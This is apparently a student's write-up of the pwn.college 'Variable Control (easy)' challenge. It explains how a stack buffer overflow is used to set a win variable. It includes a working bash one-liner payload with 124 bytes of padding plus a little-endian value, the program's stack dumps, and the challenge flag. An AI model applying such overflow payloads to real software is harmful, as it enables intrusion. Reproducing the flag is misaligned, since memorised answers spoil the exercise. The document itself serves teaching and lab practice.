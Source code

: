 # Binary Exploitation

## Variable Control (easy)
So far, your buffer overflows have simply set variables to non-zero values. Of course, memory errors often enable significantly more advanced controls over a program's state. In this challenge, you must overflow the buffer precisely to set a win condition variable to a specific value. Some things to keep in mind:

You will need to write binary data. This can't be printed on the keyboard; we recommend that you use something like Python to produce these bytes.
Keep endianness in mind!
Depending on how you generate the input data, you might accidentally terminate it with a newline! For example, bash's echo will newline-terminate by default (this behavior can be disabled using the -n flag). These newlines can cause problems --- if you are relying on precise control of program variables (which you are, in this module), an errant newline can unexpectedly corrupt program state and break your exploit. If you have doubts about whether your input has an errant newline, save it to a file and look at it using a hex dumper such as hd.

### Solve
**Flag:** `pwn.college{AHhGgVZpeJbLoXB0SFmDzIKKy1w.QX3UzMzwCM4EzNzEzW}`

The file "binary-exploitation-var-control-w" was in the challenge directory, so we used cd command to go there. Then, "./binary-exploitation-var-control-w" was executed, which gave the description and instructions of the challenge. It was given that the "win" variable is 124 bytes after the start of the input buffer and it should be set to 0x11c966e1 value. It was also required that we do not overwrite the "lose" variable which is 128 bytes after the start of the input buffer. To overwrite the win variable, we need to convert 0x11c966e1 into its little endian value. The system uses Little Endian, because the least significant byte of the data is stored at the lowest memory address. The little endian byte sequence is "\xE1\x66\xC9\x11". Since, the input buffer should not overwrite the lose variable the input buffer should be 128 bytes (124 bytes padding+ 4 bytes win variable). I tried typing this: "\xE1\x66\xC9\x11" to the input buffer directly but this counts each character differently which makes it account for more than 4 bytes. Using online resources to write a python code for this, which can also be written in one line in the bash "( printf 'A%.0s' {1..124};printf '\xE1\x66\xC9\x11' ) | ./binary-exploitation-var-control-w"." This prints the first 124 bytes as A and then the next four bytes are the win variable and this output is directly piped into the file which gave the output as the flag.

```bash
cd /challenge
hacker@binary-exploitation~variable-control-easy:/challenge$ ( printf 'A%.0s' {1..124}; printf '\xE1\x66\xC9\x11' ) | ./binary-exploitation-var-control-w
The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffffbea81c0 (rsp+0x0000) | a0 e6 1b 00 00 00 00 00 | 0x00000000001be6a0 |
| 0x00007ffffbea81c8 (rsp+0x0008) | c8 93 ea fb ff 7f 00 00 | 0x00007ffffbea93c8 |
| 0x00007ffffbea81d0 (rsp+0x0010) | b8 93 ea fb ff 7f 00 00 | 0x00007ffffbea93b8 |
| 0x00007ffffbea81d8 (rsp+0x0018) | 1c 00 00 00 01 00 00 00 | 0x000000010000001c |
| 0x00007ffffbea81e0 (rsp+0x0020) | 1c 00 00 00 00 00 00 00 | 0x000000000000001c |
| 0x00007ffffbea81e8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea81f0 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea81f8 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8200 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8208 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8210 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8218 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8220 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8228 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8230 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8238 (rsp+0x0078) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8240 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8248 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8250 (rsp+0x0090) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8258 (rsp+0x0098) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8260 (rsp+0x00a0) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8268 (rsp+0x00a8) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8270 (rsp+0x00b0) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8278 (rsp+0x00b8) | 00 f3 e2 65 ba eb ea 6d | 0x6deaebba65e2f300 |
| 0x00007ffffbea8280 (rsp+0x00c0) | c0 92 ea fb ff 7f 00 00 | 0x00007ffffbea92c0 |
| 0x00007ffffbea8288 (rsp+0x00c8) | 78 28 40 00 00 00 00 00 | 0x0000000000402878 |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffffbea81c0, and our base pointer points to 0x7ffffbea8280.
This means that we have (decimal) 26 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 208 bytes.
The input buffer begins at 0x7ffffbea81f0, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 121 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, if you can set variable to 0x11c966e1, the flag will be printed.
You can change this variable by overflowing the input buffer, but keep endianness in mind!
The "win" variable is stored at 0x7ffffbea826c, 124 bytes after the start of your input buffer.

 But be careful! There is also a LOSE variable. If this variable ends up non-zero, the program will terminate and you
will not get the flag. Be careful not to overwrite this variable.

The "lose" variable is stored at 0x7ffffbea8270, 128 bytes after the start of your input buffer.

We have disabled the following standard memory corruption mitigations for this challenge:
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

You have chosen to send 4096 bytes of input!
This will allow you to write from 0x7ffffbea81f0 (the start of the input buffer)
right up to (but not including) 0x7ffffbea91f0 (which is 3975 bytes beyond the end of the buffer).
Send your payload (up to 4096 bytes)!
You sent 128 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffffbea81c0 (rsp+0x0000) | a0 e6 1b 00 00 00 00 00 | 0x00000000001be6a0 |
| 0x00007ffffbea81c8 (rsp+0x0008) | c8 93 ea fb ff 7f 00 00 | 0x00007ffffbea93c8 |
| 0x00007ffffbea81d0 (rsp+0x0010) | b8 93 ea fb ff 7f 00 00 | 0x00007ffffbea93b8 |
| 0x00007ffffbea81d8 (rsp+0x0018) | 1c 00 00 00 01 00 00 00 | 0x000000010000001c |
| 0x00007ffffbea81e0 (rsp+0x0020) | 1c 00 00 00 80 00 00 00 | 0x000000800000001c |
| 0x00007ffffbea81e8 (rsp+0x0028) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007ffffbea81f0 (rsp+0x0030) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea81f8 (rsp+0x0038) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8200 (rsp+0x0040) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8208 (rsp+0x0048) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8210 (rsp+0x0050) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8218 (rsp+0x0058) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8220 (rsp+0x0060) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8228 (rsp+0x0068) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8230 (rsp+0x0070) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8238 (rsp+0x0078) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8240 (rsp+0x0080) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8248 (rsp+0x0088) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8250 (rsp+0x0090) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8258 (rsp+0x0098) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8260 (rsp+0x00a0) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007ffffbea8268 (rsp+0x00a8) | 41 41 41 41 e1 66 c9 11 | 0x11c966e141414141 |
| 0x00007ffffbea8270 (rsp+0x00b0) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffffbea8278 (rsp+0x00b8) | 00 f3 e2 65 ba eb ea 6d | 0x6deaebba65e2f300 |
| 0x00007ffffbea8280 (rsp+0x00c0) | c0 92 ea fb ff 7f 00 00 | 0x00007ffffbea92c0 |
| 0x00007ffffbea8288 (rsp+0x00c8) | 78 28 40 00 00 00 00 00 | 0x0000000000402878 |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7ffffbea81f0
- the saved frame pointer (of main) is at 0x7ffffbea8280
- the saved return address (previously to main) is at 0x7ffffbea8288
- the saved return address is now pointing to 0x402878.
- the canary is stored at 0x7ffffbea8278.
- the canary value is now 0x6deaebba65e2f300.
- the address of the win variable is 0x7ffffbea826c.
- the value of the win variable is 0x11c966e1.
- the address of the lose variable is 0x7ffffbea8270.
- the value of the lose variable is 0x0.

You win! Here is your flag:
pwn.college{AHhGgVZpeJbLoXB0SFmDzIKKy1w.QX3UzMzwCM4EzNzEzW}

Goodbye!
```

### New Learnings
-> Overwriting variables in stack buffer overflow

### References 
https://www.youtube.com/watch?v=CounrFEsOeA
https://www.youtube.com/watch?v=T03idxny9jE
https://www.youtube.com/watch?v=5-ZQubBWz3c